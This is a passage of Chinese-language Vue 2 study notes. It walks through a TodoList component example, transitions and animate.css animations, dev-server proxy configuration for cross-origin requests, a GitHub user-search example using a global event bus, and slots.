   //5. 方式2使用$nextTick表示下一轮，它指的的回调函数会在DOM节点更新完毕后再执行
   this.$nextTick(function () {
     this.$refs.inputTitle.focus();
   });
}
```

### 15.5  综合案例 TodoList

组件化编码流程:(页面的样式与结构已经拥有)

1. **拆分静态组件**：组件要**按照功能点拆分**，命名不要与html元素冲突，其实就是使用组件实现静态页面效果；
2. **实现动态组件**：考虑好数据存放的位置，数据是一个组件在用，还是一些组件在用：
   1. 一个组件在用，放在组件自身即可；
   2. 一些组件在用，放在它们共同的父组件上(**状态提升**)。
   3. 涉及到属性上的值是表达式或者对象时，一定要使用`：`绑定；
3. **实现交互**：从绑定事件监听开始。

`props`传递数据适用于：1.父组件==>子组件通信，2. 子组件==>父组件通信(要求父组件先给子组件一个函数)。

使用`v-model`时要切记`v-model`绑定的值不能时`props`传过来的值，因为`props`是不可以修改的。`props`传过来的若是对象类型的值，修改对象中的属性时Vue不会报错，但不推荐这样做。

> vscode中如果要查看md文件，可安装插件`Open in External App`，使用外部app打开md文件。

案例效果展示


`App.vue`文件

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHeader :addTodo="addTodo" />
        <!-- 传递给子组件数据 -->
        <MyList
          :todos="todos"
          :checkTodo="checkTodo"
          :deleteTodo="deleteTodo"
        />
        <MyFooter
          :todos="todos"
          :checkAllTodo="checkAllTodo"
          :clearAllTodo="clearAllTodo"
        />
      </div>
    </div>
  </div>
</template>

<script>
// 不命名Header就是因为Header是在html5中已经使用，因此命名为MyHeader
import MyHeader from "./components/MyHeader.vue";
import MyFooter from "./components/MyFooter.vue";
import MyList from "./components/MyList.vue";

export default {
  name: "App",
  components: {
    MyHeader,
    MyFooter,
    MyList
  },
  data() {
    return {
      // App中管理数据方便数据传递,因为MyHeader组件和MyFooter组件都在用，所引放到App中，这是状态提升。
      // todos: [
      //   { id: "001", title: "吃饭", done: true },
      //   { id: "002", title: "睡觉", done: false },
      //   { id: "003", title: "看电视", done: true }
      // ]
      //从浏览器本地存储中读取数据,没有数据就使用空数组
      todos: JSON.parse(localStorage.getItem("todos")) || []
    };
  },
  methods: {
    //提前准备方法,注意方法名不能为add，否则会跟MyHeader中add出现同名冲突，它会覆盖MyHeader中add，传入子组件方便进行数据传递
    addTodo(todoObj) {
      //添加数据
      this.todos.unshift(todoObj);
    },
    //勾选or取消勾选一个todo
    checkTodo(id) {
      //遍历
      this.todos.forEach((todo) => {
        if (todo.id === id) todo.done = !todo.done;
      });
    },
    //删除一个todo
    deleteTodo(id) {
      //过滤删除的内容
      this.todos = this.todos.filter((todo) => todo.id !== id);
    },
    //全选or取消全选
    checkAllTodo(done) {
      this.todos.forEach((todo) => {
        //修改所有todo的done属性，根据传入的值
        todo.done = done;
      });
    },
    //清除所有已完成的todo
    clearAllTodo() {
      this.todos = this.todos.filter((todo) => !todo.done);
    }
  },
  watch: {
    //监视todos属性，只要变化就操作浏览器本地存储
    todos: {
      //开启深度监视
      deep: true,
      handler(value) {
        localStorage.setItem("todos", JSON.stringify(value));
      }
    }
  }
};
</script>

<style>
/*base*/
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2),
    0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

`MyHeader.vue`文件,安装nanoid指令：`npm i nanoid`

```vue
<template>
  <div class="todo-header">
    <input
      type="text"
      placeholder="请输入你的任务名称，按回车键确认"
      v-model="title"
      @keyup.enter="add"
    />
  </div>
</template>

<script>
// 引入nanoid
import { nanoid } from "nanoid";
export default {
  name: "MyHeader",
  props: ["addTodo"],
  data() {
    return {
      // 该属性就是为了v-model动态获取input框数据
      title: ""
    };
  },
  methods: {
    add() {
      //校验数据
      if (!this.title.trim()) return alert("输入不能为空");
      //获取input中数据的两种方式:1.使用event参数获取,2.创建一个data属性，使用v-model绑定来获取
      //将用户的输入包装成一个todo对象
      //随机生成id可以使用uuid，但为了简单，我们就使用小一点的nanoid
      // const todoObj = { id: nanoid(), title: event.target.value, done: false };
      const todoObj = { id: nanoid(), title: this.title, done: false };
      //传递生成的数据给MyList组件目前无法实现，目前只能传递给App组件，因此需要将数据todos放入App组件
      //父传子数据只需要使用props属性，子传父亲，则需要先在父亲上提取准备好方法，需要传递数据时调用
      this.addTodo(todoObj);
      //清空input框内容,该方式操作的DOM,如果不想就使用方式2创建data
      // event.target.value = "";
      this.title = "";
    }
  }
};
</script>

<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075),
    0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

`MyList.vue`文件

```vue
<template>
  <ul class="todo-main">
    <!-- 使用v-for遍历数据，并绑定id为唯一值 传递数据为遍历出的对象,必须加：因为传递的是对象是表达式-->
    <MyItem
      v-for="todoObj in todos"
      :key="todoObj.id"
      :todo="todoObj"
      :checkTodo="checkTodo"
      :deleteTodo="deleteTodo"
    />
  </ul>
</template>

<script>
// MyItem是MyList的子组件
import MyItem from "./MyItem.vue";

export default {
  name: "MyList",
  components: { MyItem },
  data() {
    return {
      // 数据结构如下，本应该写MyList组件中，但后续为了实现数据传递，需要写在App上才行。
      // todos: [
      //   { id: "001", title: "吃饭", done: true },
      //   { id: "002", title: "睡觉", done: false },
      //   { id: "003", title: "看电视", done: true }
      // ]
    };
  },
  // 接收传递的数据
  props: ["todos", "checkTodo", "deleteTodo"]
};
</script>

<style scoped>
/*main*/
.todo-main {
  margin-left: 0;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

`MyItem.vue`文件

```vue
<template>
  <li>
    <label>
      <!-- 这里勾选和取消勾选可以使用change和click作为事件处理,这里使用change检测-->
      <!-- 利用todo的done属性值是true或者false 来决定checked属性是否生效 -->
      <input
        type="checkbox"
        :checked="todo.done"
        @change="handleCheck(todo.id)"
      />
      <!-- 使用v-model虽然可以直接完成功能,操作会直接影响数据，但违背了不修改props传递数据的原则 -->
      <!-- 不会报错，因为todo对象本身没修改只是todo内部的done属性，vue没有进行深度监测，因此没监视到 -->
      <!-- <input type="checkbox" v-model="todo.done" /> -->
      <span>{{ todo.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
export default {
  name: "MyItem",
  //声明接收传递的todo对象
  props: ["todo", "checkTodo", "deleteTodo"],
  methods: {
    //勾选功能
    handleCheck(id) {
      //通过id确认是哪个checkbox被勾选或取消勾选了
      //通知App组件将对应的todo对象的done值取反，App组件是MyItem组件的爷爷，因此绑定的方法要通过MyList传递过来,
      //checkTodo方法要传递两次，只能逐层传递
      this.checkTodo(id);
    },
    //删除功能
    handleDelete(id) {
      if (confirm("确定删除吗?")) {
        console.log(id);
        this.deleteTodo(id);
      }
    }
  }
};
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}

li:hover {
  background: #ddd;
}

/* 鼠标悬浮在li上显示删除按钮 */
li:hover button {
  display: block;
}
</style>
```

`MyFooter.vue`文件

```vue
<template>
  <!--隐式类型转换-->
  <!-- 如果删除了所有footer就不展示 也就是total等于0 -->
  <div class="todo-footer" v-show="total">
    <label>
      <!--这里也可用v-model来替代，此时不需要计算属性了-->
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll" /> -->
      <!--高级写法，初始化和修改内容两个内容统一使用v-model动态绑定数据完成，让两个功能变成一个计算属性完成  -->
      <input type="checkbox" v-model="isAll" />
    </label>
    <span>
      <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>

<script>
export default {
  name: "MyFooter",
  props: ["todos", "checkAllTodo", "clearAllTodo"],
  //计算属性
  computed: {
    doneTotal() {
      //最简单的手动统计写法
      // let i = 0;
      // this.todos.forEach((todo) => {
      //   if (todo.done) i++;
      // });
      // return i;
      //reduce统计写法
      // return this.todos.reduce((pre, current) => {
      //   return pre + (current.done ? 1 : 0);
      // }, 0);
      //简写
      return this.todos.reduce(
        (pre, current) => pre + (current.done ? 1 : 0),
        0
      );
    },
    total() {
      return this.todos.length;
    },
    //由于要修改isAll的内容，必须使用完整写法
    isAll: {
      get() {
        //要防止删除了所有后0=0的情况勾选,要求总数大于0
        return this.doneTotal === this.total && this.total > 0;
      },
      set(value) {
        this.checkAllTodo(value);
      }
    }
  },
  methods: {
    // checkAll(e) {
    //   this.checkAllTodo(e.target.checked);
    // }
    //清除已完成任务，不用传参
    clearAll() {
      this.clearAllTodo();
    }
  }
};
</script>

<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```

`main.js`和`index.html`文件保存默认即可。

开发者工具的**事件视图**的使用，可以查看所有的事件。`source`如果是`<Root>`就表示全局事件总线触发的，也就是vm


## 十六、Vue封装的过渡与动画

其作用是在插入、更新或移除DOM元素时，在合适的时候给元素添加样式类名。图示如下：


核心写法就是配置不同样式完成过渡或动画。

1. 元素进入的样式：①`v-enter`：进入的起点，②`v-enter-active`：进入过程中，③`v-enter-to`,进入的终点
2. 元素离开的样式：①`v-leave`：离开的起点，②`v-leave-active`：离开过程中，③`v-leave-to`,离开的终点

使用`transition`包裹要过渡的元素，并配置`name`属性。

```html
<tansition name='hello'>
    <h1 v-show='isShow'>你好</h1>
</tansition>
```

`transition`只能包裹单个元素，若有多个元素需要过渡，则需要使用`transition-group`，且每个元素都要指定`key`值。

vue动画与过渡的核心原理，本质就是vue动态操作class内容。


**案例：Vue的动画切换**,主要是对比CSS3原始动画写法与Vue写法的区别，初步使用`transition`标签

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <!-- 1. 直接在class中使用就是css3本身的动画 使用come就只有进入动画没有go,修改class为go就只有离开时动画-->
    <h1 v-show="isShow" class="come">你好Css3!</h1>

    <!-- 2. 使用Vue动画的效果，需要先使用标签transition包裹有动画的标签 最终Vue解析时，transition不会形成元素会被直接移除 -->
    <transition>
      <h1 v-show="isShow">你好Vue!</h1>
    </transition>

    <!-- 3. name属性就是为了区分不同的过渡 appear属性值为true，就可以让元素进入时就有动画 -->
    <!-- 完整写法 :appear="true" 可直接简写为appear-->
    <transition name="hello" appear>
      <h1 v-show="isShow">你好Vue!222</h1>
    </transition>
  </div>
</template>

<script>
export default {
  name: "Test",
  data() {
    return {
      isShow: true
    };
  }
};
</script>

<style scoped>
h1 {
  background-color: orange;
}

/* CSS3写法：类名可自定义 定义进入的动画，使用关键帧demo 动画时间1s 匀速 */
.come {
  animation: demo 0.5s linear;
}

/* reverse表示反转 */
.go {
  animation: demo 0.5s linear reverse;
}

/* Vue写法：类名格式固定，transition没有name属性时默认就是v开头，有name属性就以name属性名开头  */
/* 元素进入时激活的样式 */
.v-enter-active {
  animation: demo 0.7s linear;
}
/* 元素离开时激活的样式 */
.v-leave-active {
  animation: demo 0.7s linear reverse;
}

.hello-enter-active {
  animation: demo 0.9s linear;
}
/* 元素离开时激活的样式 */
.hello-leave-active {
  animation: demo 0.9s linear reverse;
}

/* 定义动画的关键帧 名为demo  CSS3的写法*/
@keyframes demo {
  from {
    transform: translateX(-100%);
  }

  to {
    transform: translateX(0);
  }
}
</style>
```

**案例：Vue的过渡切换**

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>

    <transition name="hello" appear>
      <h1 v-show="isShow">你好Vue!111</h1>
    </transition>

    <transition name="hello2" appear>
      <h2 v-show="isShow">你好Vue!222</h2>
    </transition>
    
    <!-- 多个元素，动画一样时 -->
    <transition name="hello" appear>
      <div v-show="isShow">
        <h1>你好Vue!333</h1>
        <h1>你好Vue!444</h1>
      </div>
    </transition>
    <!-- 多个元素，动画不一样时，必须使用transition-group，且每个元素必须有key值，且值不同-->
    <transition-group name="hello" appear>
      <h1 v-show="!isShow" key="1">你好Vue!555</h1>
      <h1 v-show="isShow" key="2">你好Vue!666</h1>
    </transition-group>
  </div>
</template>

<script>
export default {
  name: "Test",
  data() {
    return {
      isShow: true
    };
  }
};
</script>

<style scoped>
h1 {
  background-color: orange;
  /* 配置过渡 */
  transition: 0.5s linear;
}

h2 {
  background-color: skyblue;
}
/* 1. Vue过渡标准写法  */
/* 进入的起点样式 */
.hello-enter {
  transform: translateX(-100%);
}
/* 进入的终点样式 */
.hello-enter-to {
  transform: translateX(0);
}

/* 离开的起点样式 */
.hello-leave {
  transform: translateX(0);
}
/* 离开的终点样式 */
.hello-leave-to {
  transform: translateX(-100%);
}

/* 2. Vue过渡简单写法  因为离开的起点与进入的终点内容一样  可简写使用逗号分隔*/
/* 不在原本的样式中配置过渡，在进入时或离开时配置过渡 */
.hello2-enter-active,
.hello2-leave-active {
  transition: 0.7s linear;
}
.hello2-enter,
.hello2-leave-to {
  transform: translateX(-100%);
}

.hello2-leave,
.hello2-enter-to {
  transform: translateX(0);
}
</style>
```

**案例：使用第三方动画库**`animate.css`直接完成动画

第三方库官方网址：https://animate.style/

安装指令：`npm i animate.css`

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <!-- 使用第三方库动画样式类名 name必须使用第三方指定类名，注意是两个_ 
    enter-active-class配置进入动画样式名
    enter-active-class配置进入动画样式名-->
    <transition-group
      appear
      name="animate__animated animate__bounce"
      enter-active-class="animate__swing"
      leave-active-class="animate__backOutUp"
    >
      <h1 v-show="isShow" key="1">你好Vue!222</h1>
      <h1 v-show="isShow" key="2">你好Vue!333</h1>
    </transition-group>
  </div>
</template>

<script>
// 引入样式直接写路径名即可
import "animate.css";
export default {
  name: "Test",
  data() {
    return {
      isShow: true
    };
  }
};
</script>

<style scoped>
h1 {
  background-color: orange;
}
</style>
```

## 十七、Vue配置代理

js中要发送Ajax请求方式：

1. `xhr`,最底层的http请求；

2. `jQuery`封装的`$.get` 、`$.post`；

3. `axios`，使用promise风格封装的xhr，框架中常用；

4. `fetch`方式，它与xhr是平级的，promise风格的，是js内置的，直接在window对象上有，但其在IE浏览器上有兼容性问题；

5. `vue-resource`插件，它最开始是vue团队维护的，后面交给其他团队就很少使用的，其使用方式就按照vue插件来使用即可，发送请求的方式跟axios差不多。vue-resource了解就行，现在的项目大部分使用axios。

   安装指令：`npm i vue-resource`

   引入插件，并在Vue中使用插件。

   ```js
   import Vue from "vue";
   import App from "./App.vue";
   //引入vue-resource插件
   import vueResource from "vue-resource";
   
   Vue.config.productionTip = false;
   
   //使用插件，当使用成功后vm或vc实例上就会多一个$http属性,是个函数
   Vue.use(vueResource);
   
   new Vue({
     render: (h) => h(App),
     beforeCreate() {
       //安装全局事件总线
       Vue.prototype.$bus = this;
     }
   }).$mount("#app");
   ```

   使用`this.$http`发送请求,对比axios与vue-resource,会发现使用方式基本一样

   ```js
   axios.get(`https://api.github.com/search/users?q=${this.keyword}`)
        .then((response) => {
           console.log("请求成功");
         })
       .catch((error) => {
           console.log(`请求失败:${e.message}`);
         });
   
   //使用vue-resource发送请求，使用方式跟axios一样
   this.$http.get(`https://api.github.com/search/users?q=${this.keyword}`)
       .then((response) => {
           console.log("请求成功");
         })
       .catch((error) => {
           console.log(`请求失败:${e.message}`);
         });
   ```

准备一个两个后端服务器，使用nodeJS的express编写。**如果node版本太低，建议使用express版本为4.17.1**。启动服务器指令就是`node 文件名`。

学生服务器`server.js`文件：(使用cmd启动服务器时，不要使用鼠标选中内容，否则发送请求会卡住，需要按enter才会正常)

```js
const express = require("express");

const app = express();

//创建路由规则
app.get("/students", (request, response) => {
  console.log("有人请求了学生服务器");
  console.log("请求资源的是：", request.url);
  console.log("请求来自于：", request.get("Host"));

  //设置响应体
  const students = [
    {
      id: "001",
      name: "tom",
      age: 18
    },
    {
      id: "002",
      name: "jerry",
      age: 15
    },
    {
      id: "003",
      name: "andy",
      age: 28
    }
  ];

  response.send(JSON.stringify(students));
});

//监听服务
app.listen(5000, () => {
  console.log(
    "学生服务器启动，5000端口监听中，请求地址为:http://localhost:5000/students"
  );
});
```

汽车服务器`car.js`：

```js
const express = require("express");

const app = express();

//创建路由规则
app.get("/cars", (request, response) => {
  console.log("有人请求了汽车服务器");
  console.log("请求资源的是：", request.url);
  console.log("请求来自于：", request.get("Host"));

  //设置响应体
  const cars = [
    {
      id: "001",
      name: "宝马",
      color: "红色"
    },
    {
      id: "002",
      name: "奔驰",
      color: "白色"
    },
    {
      id: "003",
      name: "雅迪",
      color: "绿色"
    }
  ];

  response.send(JSON.stringify(cars));
});

//监听服务
app.listen(5001, () => {
  console.log(
    "汽车服务器启动，5000端口监听中，请求地址为:http://localhost:5001/cars"
  );
});

```

使用axios发送ajax请求步骤：

1. 先安装包：`npm i axios`；
2. 再引入包 `import axios from 'axios'`；
3. 编写请求代码。

```vue
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
  </div>
</template>

<script>
import axios from "axios";

export default {
  name: "App",
  methods: {
    getStudents() {
      //使用axios发送ajax请求
      axios.get("http://localhost:5000/students").then(
        //成功的回调函数
        (response) => {
          console.log("请求成功了", response.data);
        },
        (error) => {
          console.log("请求失败了", error.msg);
        }
      );
    }
  }
};
</script>
```

服务器是5000端口，浏览器发送请求的地址8080端口，因此这里是跨域请求，会报错`Access-Control-Allow-Origin`。

解决跨域请求的方式有很多:

1. **cors**，只需要在服务器端配置响应头`response.setHeader("Access-Control-Allow-Origin", "*")`;

2. **jsonp**，该方式借助srcipt标签src属性，需要前后端同时配合才能实现，且只能解决get请求，其他类型请求不行；

3. **代理proxy服务器**(常用)，其实现原理就是**它的地址与浏览器**一样，这样就不会有跨域问题，而代理服务器与服务器的通信不需要ajax,不会产生跨域问题。本质上代理服务器就相当于中间商的效果，它起到**数据转发**的功能。

   


开启代理服务器的方式：1.nginx(比较专业，先不学习)，2.vue-cli中配置,`vue.config.js`中配置代理服务器：

```js
module.exports = {
  pages: {
    index: {
      entry: "src/main.js"
    }
  },
  lintOnSave: false, //关闭语法检查
  //开启代理服务器
  devServer: {
    proxy: "http://localhost:5000" //请求转发的地址
  }
};
```

配置好代理服务器后，需要修改ajax请求地址，不再是服务器地址而是代理服务器的地址

```js
getStudents() {
     //使用axios发送ajax请求,地址改为代理服务器地址的8080
     axios.get("http://localhost:8080/students").then(
       //成功的回调函数
       (response) => {
         console.log("请求成功了", response.data);
       },
       (error) => {
         console.log("请求失败了", error.msg);
       }
     );
}
```

上边配置的代理服务器能使用了，但存在两个问题：

1. 只能配置一个代理，不能同时配置多个代理。

2. 不能灵活控制代理是否转发，默认代理服务器并不是**所有的请求都会转发**，如果请求的资源在本地服务器中本身就有，就不会转发。例如：vue启动的服务器资源就是在**public文件夹**中的，如果在public文件夹中创建一个**students文件**，上述案例的请求就不会被转发。

   

要解决上述问题，就使用比较完整的配置(方式二),每次修改完配置都要重启vue服务器才会生效

```js
module.exports = {
  pages: {
    index: {
      entry: "src/main.js"
    }
  },
  lintOnSave: false, //关闭语法检查
  //开启代理服务器(方式一)
  //   devServer: {
  //     proxy: "http://localhost:5000" //请求转发的地址
  //   }

  //开启代理服务器(方式二)
  devServer: {
    proxy: {
      // api就是请求前缀,target是目标服务器。该配置就表明，只要请求前缀是api就会转发请求给5000
      "/api": {
        target: "http://localhost:5000",
        // 路径重写，如果不配置，请求转发时会带请求前缀，例如/api/students的请求，实际是不需要/api部分的
        pathRewrite: { "^/api": "" }, //属性名使用了正则匹配，匹配成功就替换为空
        //ws是websocket的简写，默认配置为true就表示支持websocket
        ws: true,
        //默认配置为true,表示会伪装请求头的host地址，代理服务器虽然是8080,给5000服务器的请求是5000
        //配置是false，表示不会伪装请求头的host地址，代理服务器是8080,给5000服务器的请求就是8080
        changeOrigin: true
      },
      //配置多个代理
      "/demo": {
        target: "http://localhost:5001",
        // 路径重写，如果不配置，请求转发时会带请求前缀，例如/api/students的请求，实际是不需要/api部分的
        pathRewrite: { "^/demo": "" } //属性名使用了正则匹配，匹配成功就替换为空
      }
    }
  }
};
```

发送多个ajax请求，验证代理是否生效。

```vue
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
    <button @click="getStudents2">获取本地学生信息</button>
    <button @click="getCars">获取汽车信息</button>
  </div>
</template>

<script>
import axios from "axios";

export default {
  name: "App",
  methods: {
    getStudents() {
      //使用axios发送ajax请求，请求路径必须添加上代理配置前缀api
      axios.get("http://localhost:8080/api/students").then(
        //成功的回调函数
        (response) => {
          console.log("请求成功了", response.data);
        },
        (error) => {
          console.log("请求失败了", error.msg);
        }
      );
    },
    //获取本地学生文件的内容
    getStudents2() {
      //使用axios发送ajax请求
      axios.get("http://localhost:8080/students").then(
        //成功的回调函数
        (response) => {
          console.log("请求成功了", response.data);
        },
        (error) => {
          console.log("请求失败了", error.msg);
        }
      );
    },
    getCars() {
      //使用axios发送ajax请求，请求路径必须添加上代理配置前缀demo
      axios.get("http://localhost:8080/demo/cars").then(
        //成功的回调函数
        (response) => {
          console.log("请求成功了", response.data);
        },
        (error) => {
          console.log("请求失败了", error.msg);
        }
      );
    }
  }
};
</script>
```

对比两种代理配置方式：

1. 方式一的优点是配置简单，请求资源直接就发给前端8080即可，缺点则是不能同时配多个代理，不能灵活控制请求是否代理；
2. 方式二的优点是可以配置多个代理，且可以灵活控制请求是否代理，缺点是配置略微繁琐，请求资源时必须添加前缀。

## 十八、综合小案例 gitHub案例

`main.js`文件，核心是挂载全局事件总线

```js
import Vue from "vue";
import App from "./App.vue";

Vue.config.productionTip = false;

new Vue({
  render: (h) => h(App),
  beforeCreate() {
    //安装全局事件总线
    Vue.prototype.$bus = this;
  }
}).$mount("#app");
```

`App.vue`文件

```vue
<template>
    <div class="container">
      <Search/>
      <List/>
    </div>
</template>

<script>
import Search from "@/components/Search";
import List from "@/components/List";
export default {
  name: "App",
  components:{
    Search,
    List
  }
}
</script>
```

`Search.vue`文件

```vue
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <!-- keyword使用v-model进行双向数据绑定 -->
      <input
        type="text"
        placeholder="enter the name you search"
        v-model="keyword"
      />&nbsp;
      <button @click="searchUsers">Search</button>
    </div>
  </section>
</template>

<script>
import axios from "axios";
export default {
  name: "Search",
  data() {
    return {
      keyword: ""
    };
  },
  methods: {
    //使用github上免费的服务器获取数据，参数是search搜索的内容，使用axios发送ajax请求
    searchUsers() {
      //发送初次请求前，先更新一下List的数据,其中isLoading:true表示展示加载中,isFirst:false表示不展示欢迎词
      this.$bus.$emit("updateListData",{isLoading:true,errMsg:'',users:[],isFirst:false});
      //发送请求
      axios
        .get(`https://api.github.com/search/users?q=${this.keyword}`)
        .then((response) => {
          console.log("请求成功");
          // console.log(response.data.items);
          //全局事件总线传递数据
          // this.$bus.$emit("getUsers", response.data.items);
          //请求成功获取到数据后，更新List数据，isFirst:false只执行一次，后面一直为true就可以不传递
           this.$bus.$emit("updateListData",{isLoading:false,errMsg:'',users:response.data.items});
        })
        .catch((error) => {
          // console.log(`请求失败:${e.message}`);
          //获取数据失败，更新List数据，isFirst省略,users必须清空
          this.$bus.$emit("updateListData",{isLoading:false,errMsg:error.message,users:[]});
        });
    }
  }
};
</script>

<style scoped></style>
```

`List.vue`文件

```vue
<template>
  <div class="row">
    <!--展示用户列表-->
    <!-- user.html_url,user.avatar_url,user.login数据都是从github上获取过来的  -->
    <!-- users中有数据时才展示数据 -->
    <div
      v-show="info.users.length"
      class="card"
      v-for="user in info.users"
      :key="user.login"
    >
      <a :href="user.html_url" target="_blank">
        
      </a>
      <p class="card-text">{{ user.login }}</p>
    </div>

    <!-- 开始进入页面没有数据时,展示欢迎词 -->
    <h1 v-show="info.isFirst">欢迎使用！</h1>

    <!-- 获取数据过程中，展示加载中 -->
    <h1 v-show="info.isLoading">加载中...</h1>
    <!-- 获取数据失败时,展示错误信息 -->
    <h1 v-show="info.errMsg">请求出错了{{ info.errMsg }}</h1>
  </div>
</template>

<script>
export default {
  name: "List",
  data() {
    return {
      info: {
        isFirst: true,
        isLoading: false,
        errMsg: "",
        users: [] //获取的用户数据
      }
    };
  },
  mounted() {
    this.$bus.$on("updateListData", (dataObj) => {
      // this.info = dataObj;
      // 上边的写法有点小问题，为防止isFirst丢失，使用解构赋值，这样dataObj不传isFirst也不会丢失
      this.info = { ...this.info, ...dataObj };
    });
  }
};
</script>

<style scoped>
.album {
  min-height: 50rem; /* Can be removed; just added for demo purposes */
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}

.card {
  float: left;
  width: 33.333%;
  padding: 0.75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}

.card > img {
  margin-bottom: 0.75rem;
  border-radius: 100px;
}

.card-text {
  font-size: 85%;
}
</style>
```

`index.html`文件，主要为了引入`bootstrap.css`样式,该文件就放到**public文件下的css文件夹**中。如果放到**src文件夹下assets静态资源文件夹**下，就需要使用**import引入**，该方式引入有代码检测，就需要额外引入字体文件。

```html
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width,initial-scale=1.0" />
    <link rel="icon" href="<%= BASE_URL %>favicon.ico" />
    <!-- 在html引入bootstrap.css,可以不用引入相关字体，如果在js中使用import引入就必须使用字体否则会报错 -->
    <link rel="icon" href="<%= BASE_URL %>css/bootstrap.css" />
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <noscript>
      <strong
        >We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work
        properly without JavaScript enabled. Please enable it to
        continue.</strong
      >
    </noscript>
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>
```

最终效果


## 十九、插槽 slot

**插槽**的作用就是让父组件可以向子组件的**指定位置插入html结构**，它也是一种**组件间的通信方式**，适用于**父组件===>子组件**，只是传递的内容不再是数据，而是html结构而已。

插槽按写法的不同可分为：

1. **默认插槽**

   ```html
   //父组件中
   <Category>  
       <div>html结构1</div> 
   </Category> 
   
   //子组件中
   <template>
     <div>
       <!--定义插槽-->
       <slot>插槽默认内容</slot>
     </div>
   </template>
   ```

2. **具名插槽**,也就是具有名字的插槽

   ```html
   //父组件中
   <Category>  
       <template slot='center'>
          <div>html结构1</div> 
       </template>
       
       <template v-slot:footer>
          <div>html结构2</div> 
       </template>
   </Category> 
   
   //子组件中
   <template>
     <div>
       <!--定义插槽,带有名称name-->
       <slot name='center'>插槽默认内容</slot>
       <slot name='footer'>插槽默认内容</slot>
     </div>
   </template>
   ```

3. **作用域插槽**:数据在组件自身，但根据数据生成的结构需要组件的使用者来决定。也就是mygames数据在Category组件(子组件)中，但使用数据所遍历出来的结构由App组件(父组件)决定。

   ```html
   //父组件中
   <Category>  
       <template scope='scopeData'>
          <!--生成的是ul列表--> 
           <ul>
               <li v-for='g in scopeData.mygames' :key='g'>{{g}}</li>
           </ul>
       </template>
       
       <template slot-scope='scopeData'>
          <!--生成的是h4--> 
          <h4 v-for='g in scopeData.mygames' :key='g'>{{g}}</h4>
       </template>
   </Category> 
   
   //子组件中
   <template>
     <div>
       <slot :mygames='mygames'>插槽默认内容</slot>
     </div>
   </template>
   
   <script>
   export default {
     name: "Category",
     props: ["title"],
     //数据是在子组件中的
     data() {
       return {
         mygames: ["王者荣耀", "LOL", "宝可梦", "超级玛丽"]
       };
     }
   };
   </script>
   ```

作用域插槽也可以写名字，相当于插槽既有作用域也有名称两个效果。

不同插槽具体代码案例，它们都共用一个App.vue组件。

`App.vue`文件

```vue
<template>
  <div>
    <h1>不使用插槽</h1>
    <div class="container">
      <Category :dataList="foods" title="美食" />
      <Category :dataList="games" title="游戏" />
      <Category :dataList="films" title="电影" />
    </div>

    <h1>使用默认插槽,让展示内容个性化</h1>
    <div class="container">
      <!-- 组件中要写内部样式必须使用双标签形式 -->
      <Category2 title="美食">
        <!-- 组件内部的内容是在App组件中完成解析之后再放入Category2组件中插槽的位置，
        因此内容的css样式既可以写在App组件中也可以写在Category2组件中，效果是一样的  -->
        
      </Category2>
      <Category2 title="游戏">
        <ul>
          <li v-for="(game, index) in games" :key="index">
            {{ game }}
          </li>
        </ul>
      </Category2>
      <Category2>
        <video src="./assets/aaa.mp4" controls></video>
      </Category2>
    </div>

